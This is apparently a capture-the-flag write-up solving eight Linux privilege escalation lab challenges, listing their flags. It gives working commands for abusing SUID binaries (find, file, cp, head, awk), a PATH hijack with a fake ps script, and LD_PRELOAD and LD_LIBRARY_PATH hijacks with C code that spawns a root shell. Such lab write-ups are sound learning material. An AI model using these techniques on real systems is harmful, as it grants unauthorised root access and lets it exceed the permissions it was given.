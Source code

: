 # Privelege Escalation Laboratory 2

### This writeup contains the solving steps of all the prvelege escalation challenges from codwer.academy.

## Privesc1

![image](https://github.com/cbr1N/codwer/assets/95069685/e5edacbe-cba4-4269-8594-1c49e55d6a07)

Firstly we access a container running on a Linux machine using the given IP address and port. We also have the username and password that are configured for SSH access. This will be the first step for the other challenges too.

![image](https://github.com/cbr1N/codwer/assets/95069685/f0b16503-11a1-4912-a7cc-4d175fd94473)

As we can see /usr/bin/find has the SUID set to it. We can exploit this and gain root access.

![image](https://github.com/cbr1N/codwer/assets/95069685/09d4696a-5239-405e-8a24-e21387692d2e)

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

```
ls -la /usr/bin/find
./find . -exec /bin/sh -p \; -quit
whoami
cat /flag.txt
```
**flag: CWA{F1r5t_5U1D_D0N3}**

## Privesc2

![image](https://github.com/cbr1N/codwer/assets/95069685/ea0ec194-8a1d-448e-ad57-b710903254a0)

![image](https://github.com/cbr1N/codwer/assets/95069685/87373ef0-5f6c-4b35-bfe4-0b31f26feb18)

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

Each input line is treated as a filename for the file command and the output is corrupted by a suffix : followed by the result or the error of the operation, so this may not be suitable for binary files.

```
ls -la /usr/bin/file
LFILE=/flag.txt
file -f $LFILE
```

**flag: CWA{G01NG_5TR0NG_K33P_1T_UP}**


## Privesc3

![image](https://github.com/cbr1N/codwer/assets/95069685/bc348785-5e18-4dfb-a312-6c5e29ab372c)

![image](https://github.com/cbr1N/codwer/assets/95069685/6bf9b740-1aab-4469-824f-4e302762faf1)

This can copy SUID permissions from any SUID binary (cp itself) to another. cp has user read permission so by copying it to the flag.txt file copy that we will create in /tmp, we gain read permission to that file. 

```
ls -la /usr/bin/cp
LFILE=/flag.txt
cp "$LFILE" /tmp/flag
/usr/bin/cp --attributes-only --preserve=all /bin/cp /tmp/flag
cat /tmp/flag
```

**flag: CWA{ST1LL_G01NG_5TR0NG_K33P_1T_UP}**

## Privesc4

![image](https://github.com/cbr1N/codwer/assets/95069685/3a077765-b9ce-44f2-b2f0-0bc25422892e)

Here we have the SUID set to head. That means that we can run head on any restricted file and it will show us its content.

```
ls -la /usr/bin/head
LFILE=/flag.txt
head "$LFILE"
```

**flag: CWA{0N3_M0R3_SU1D_L3FT}**

## Privesc5

![image](https://github.com/cbr1N/codwer/assets/95069685/02ca44d2-e9ca-4737-937d-dd9377c8c8ee)

As in other instances the /usr/bin/awk command has the SUID bit set so we can exploit it. We use a read file exploit to gain the contents of /flag.txt.

```
ls -l /usr/bin/awk
awk '//' /flag.txt
```

**flag: CWA{FLY_H1GH_L1K3_4_H4WK}**

## Privesc6

![image](https://github.com/cbr1N/codwer/assets/95069685/99601f0a-ed78-474a-a057-a1e968d5b1ce)

We can see that the run_me has SUID set to it.

![image](https://github.com/cbr1N/codwer/assets/95069685/354ea433-bf86-4c95-a717-d4108df8172b)

By creating a malicious ps script, we are taking advantage of the fact that run_me likely calls ps without specifying its full path, relying on the PATH environment variable.
Prepending /tmp to PATH ensures that our malicious ps script is executed instead of the system ps command.
This method works if run_me is running with elevated privileges, allowing our script to inherit these privileges and spawn a root shell.

```
ls -l ./run_me
echo '#!/bin/bash' > /tmp/ps
echo '/bin/sh' >> /tmp/ps
chmod +x /tmp/ps
export PATH=/tmp:$PATH
./run_me
whoami
cat /flag.txt
```

**flag: CWA{K33P_Y0UR_P4TH_FULL}**

## Privesc7

![image](https://github.com/cbr1N/codwer/assets/95069685/eb07f96d-154e-441b-8e71-d42702feb046)

This line env_keep+=LD_PRELOAD means that when a user executes a command with sudo, the LD_PRELOAD environment variable will be preserved.

![image](https://github.com/cbr1N/codwer/assets/95069685/de4af3cc-f87e-406d-a705-8b6db3da8a44)

When a program is running, LD_PRELOAD loads a shared object before any others. By writing a simple script with init() function, it will help us execute code as soon as the object is loaded. Then we run one of the programs you are allowed to run via sudo, in our case apache2, while setting the LD_PRELOAD environment variable to the full path of the new shared object.

```
sudo -l
touch preload.c
nano preload.c
cat preload.c
gcc -fPIC -shared -nostartfiles -o /tmp/preload.os /home/codwer/preload.c
sudo LD_PRELOAD=/tmp/preload.os apache2
whoami
cat /flag.txt
```
preload.c script:
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

**flag: CWA{PR3L04D_Y0UR_L1BR4R135}**

## Privesc8

![image](https://github.com/cbr1N/codwer/assets/95069685/14ed8a1d-e0b9-4914-9e99-f5904a0beb3e)

![image](https://github.com/cbr1N/codwer/assets/95069685/4bb582be-68e1-43b8-9961-d961ce38ec96)

The LD_LIBRARY_PATH contains a list of directories which search for shared libraries first.
Use one of the shared objects in the list and we will hijack it by creating a file with same name. We will be targeting the libcrypt.so.1 file.

![image](https://github.com/cbr1N/codwer/assets/95069685/160d397a-db5c-44d3-92ae-9e543b59b717)

The next steps are identical to the previous example.

![image](https://github.com/cbr1N/codwer/assets/95069685/3720bafc-c7f0-447f-b2ce-64c08f04e2b9)

And finally, we run apache2 using sudo, while settings the LD_LIBRARY_PATH environment variable to /tmp (where compiled shared object is located).

```
ldd /usr/sbin/apache2
touch library.c
nano library.c
cat library.c
gcc -o /tmp/libscrypt.so.1 -shared -fPIC /home/codwer/library.c
sudo LD_LIBRARY_PATH=/tmp apache2
whoami
cat /flag.txt
```
library.c script:
```
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

**flag: CWA{KN0W_480U7_LD_L18R4RY_P47H}**

## Lessons learned
During these tasks I have learned how to exploit the SUID bits set to different commands and exploit them. Also I found out what env_keep does and how to exploit it. 
And on top of that I have found out about new privelege escalation techniques, gaining more knowledge about the Linux OS itself.

## Useful links
- [https://www.redhat.com/sysadmin/suid-sgid-sticky-bit]

- [https://gtfobins.github.io/#+suid]

- [https://vk9-sec.com/privilege-escalation-linux-path-hijacking/#:~:text=Linux%20path%20hijacking%2C%20also%20known,code%20or%20gain%20elevated%20privileges.]
